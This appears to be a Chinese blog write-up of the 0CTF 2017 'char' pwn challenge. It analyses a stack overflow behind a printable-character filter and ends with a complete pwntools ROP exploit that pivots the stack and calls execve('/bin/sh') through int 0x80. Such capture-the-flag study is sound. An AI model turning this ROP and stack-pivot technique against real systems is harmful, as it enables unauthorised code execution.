





<!--yml
category: 未分类
date: 2022-04-26 14:31:44
-->

# 0ctf-2017-pwn-char 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113666423](https://blog.csdn.net/A951860555/article/details/113666423)

# 文件信息

该题目来自2017年0ctf的一道pwn题–[char](https://download.csdn.net/download/A951860555/15073488)。
查看文件信息：
  只开启了NX保护，32位小端程序

另外该题目还给了[libc.so](https://download.csdn.net/download/A951860555/15073533)文件，部署时需要将该库文件放到`/home/char/`目录下，部署的目录位置可以从程序的伪C代码中看出。

# 漏洞定位


程序的main函数如上图所示，首先程序可以接受2400字符的输入，但注意这里的scanf的读取限制，比如：空格、回车、换行符等等都是无法读入的，这里的限制体现在后面构造ROP链时地址中不能含有以上字符的十六进制表示。然后将libc.so库文件映射到了固定地址`0x5555E000`，这使得后面我们可以直接使用固定地址加库函数偏移调用libc库函数或者ROP地址。最后一个for循环对存储在s中的字符也就是输入字符进行检查，该检查函数如下图所示，限定了输入的字符范围在`31< char <=126` 之间，此检查规则将会在后面对我们构造ROP链造成巨大的困难。

最后只剩一个函数了，截图如下，该函数即是漏洞位置所在，它将我们检查后的输入复制到一个离返回地址距离非常小的栈空间中，此时存在栈溢出。这里值得注意的是，scanf函数可以读取\x00这样的字符，而strcpy函数则会以\x00字符作为截断标志，这一点会在后面的ROP链构造中使用到。


# 利用分析

对于该pwn的漏洞利用，我们需要结合checksec的信息来看，这是一道非常明显的栈溢出题目，然后开启了NX保护，给了libc.so库文件。首先我们可以想到直接使用ret2libc的方式，直接调用libc中的system函数获取到shell。然而通过下面的截图我们可以看到，system和execve函数地址中十六进制字符超出了程序检查的范围，所以无法使用该利用方式。

最后经过多方面的查阅和思考，我决定采用ROP链构造syscall调用获取shell的方式，在构造过程会遇到诸多问题，主要也是由于程序的字符检查机制带来的麻烦，这导致很多gadget地址不能用。同时由于strcpy函数无法读取\x00，所以我们存入的0字符也无法正常的copy，所以这里利用strcpy调用后，ecx寄存器中的值和源字符串地址有一定关系，实现栈迁移，跳转到原来的字符串所处位置（这里并非就是源字符串地址的起始位置），在那里执行ROP链。

# wp

整个wp需要注意几个细节，实现栈迁移利用的是strcpy函数返回后，ecx寄存器会是源字符串地址的一个固定偏移值，具体偏移多少由字符串的长度决定，这里可以采用动态调试的方式去确定这个偏移。其次是在\x00字符之后的gadget地址可以不用遵循程序字符检查的机制，因为for循环中strlen会以\x00作为截断，\x00后面的字符不会被检查也不会被复制。最后对shellcode编写不熟悉的看官可以参考这篇[博文](https://blog.csdn.net/A951860555/article/details/110936441)。

```
from pwn import *

context.log_level = "debug"
p = process("./char")

base = 0x5555e000
sh_addr = 0x15D7EC
pop_ebx_ret = 0x0001934e
pop_ecx_add_al_0xa_ret = 0x00174a51
pop_edx_xor_eax_pop_edi_ret = 0x00095555
inc_eax_ret = 0x00168864
int_0x80 = 0x00109176
mov_eax_ecx_ret = 0x148253
xchg_eax_esp_retb = 0xe6d62

payload = cyclic(0x1c)

payload += p32(mov_eax_ecx_ret+base) 
payload+= p32(mov_eax_ecx_ret+base)
payload+= p32(xchg_eax_esp_retb+base)
payload+= b'\x00'*3

payload += p32(pop_ebx_ret+base) + p32(sh_addr+base) 
payload += p32(pop_ecx_add_al_0xa_ret+base) + p32(0) 
payload += p32(pop_edx_xor_eax_pop_edi_ret+base) + p32(0) + p32(0) 
for _ in range(int(0xb)):  
    payload += p32(inc_eax_ret+base)
payload += p32(int_0x80+base)

p.sendline(payload)
p.interactive() 
```

# 总结

该题目看似简单，但实际操作中会遇到不少问题，通过对输入字符的限制，充分考察了做题人的shellcode编写能力，ROP链的构造能力，这里我也给出[github](https://gist.github.com/rick2600/ae2af7ffd33a17836f06ce191f643b26)上另外一位大佬的利用方式，他采用纯实现syscall调用的方式，由于不能直接压入0字符，`/bin/sh`字符的地址也存在检查限制，所以整个构造过程别出心裁，看似简单明了，但实际操作过程中会花费不少时间。